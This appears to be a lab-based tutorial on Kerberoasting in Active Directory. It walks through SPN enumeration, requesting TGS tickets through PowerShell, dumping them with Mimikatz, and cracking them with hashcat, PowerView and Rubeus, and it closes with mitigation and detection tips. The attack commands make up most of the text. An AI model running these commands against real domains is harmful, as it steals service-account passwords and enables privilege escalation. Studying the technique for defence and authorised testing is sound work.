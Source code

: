 Kerberoasting is a technique used to extract and crack Kerberos Ticket Granting Service (TGS) tickets to gain access to privileged accounts. While modern tools such as **Rubeus** automate the process, the traditional semi-manual method involves using built-in Windows tools and PowerShell.

## **Enumerating SPNs with** `**setspn.exe**`

The `setspn.exe` tool can be used to identify Service Principal Names (SPNs) linked to user accounts.

```powershell
setspn.exe -Q */*
```

Example Output
```powershell
CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```

**Key Takeaways:**
- Focus on user accounts and ignore computer accounts.
- Identify high-value targets (e.g., SQL servers, backup jobs).
---
## **Requesting TGS Tickets via PowerShell**

After identifying an SPN, request a **TGS ticket** for it.

 **Command:**
```powershell
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

 **Explanation:**
- `**Add-Type -AssemblyName System.IdentityModel**` → Adds the necessary .NET framework class.
- `**New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken**` → Requests a TGS ticket for the SPN.
- This method mimics what tools like **Rubeus** do under the hood.
---
##  **Retrieving All Tickets Using PowerShell**

To extract tickets for **all SPNs**, use:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
This retrieves TGS tickets for all accounts with an SPN.

---
## **Extracting Tickets from Memory with Mimikatz**

Once tickets are loaded into memory, extract them using **Mimikatz**.

```powershell
mimikatz.exe
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```
 
 **Explanation:**
- `kerberos::list /export` → Dumps TGS tickets to disk.
- If not using `base64 /out:true`, `.kirbi` files are created.
- **Next Step:** Convert these to Hashcat format for cracking.

 **Preparing the Base64 Blob for Cracking**
 Extracted ticket must be formatted properly.

```bash
echo "<base64 blob>" | tr -d '\n' > encoded_file
cat encoded_file | base64 -d > sqldev.kirbi
kirbi2john sqldev.kirbi > crack_file
```
- Converts `.kirbi` files to **Hashcat-compatible format**.
- Uses `kirbi2john.py` to extract the **TGS hash**.

**Cracking the Ticket with Hashcat**
After extracting the **hash**, use **Hashcat** to brute-force it.

```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```
- **Mode 13100** → RC4-encrypted Kerberos TGS hashes.
- **Output:** Cracked plaintext password.

---
## **Automated Methods: Using PowerView**

PowerView from PowerSploit can streamline Kerberoasting.

 **Enumerating SPNs with PowerView**
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

 **Extracting TGS Hash in Hashcat Format**
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

 **Exporting All Tickets to CSV**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

---

## **Using Rubeus for Kerberoasting**
Rubeus provides a faster alternative.

**Basic Usage:**
```powershell
Rubeus.exe kerberoast /nowrap
```

 **Advanced Usage:**
 ```powershell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
- `admincount=1` → Targets **high-value accounts**.
- `/nowrap` → Formats output for easy Hashcat cracking.

 **Cracking AES-encrypted Tickets**
- AES-256 tickets use **Hashcat mode 19700**.
```powershell
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```
---
## **Defensive Mitigation & Detection**

### **Mitigation Strategies:**

- **Use Managed Service Accounts (MSA/gMSA)** → Auto-rotating strong passwords.
- **Set long, complex passwords** for service accounts.
- **Restrict RC4 encryption** for Kerberos tickets.

### **Detection Strategies:**

- **Monitor Windows Event ID 4769** (Abnormal TGS requests).
- **Audit Kerberos Service Ticket Operations** in Group Policy.
- **Analyze for spikes in Kerberos TGS requests.**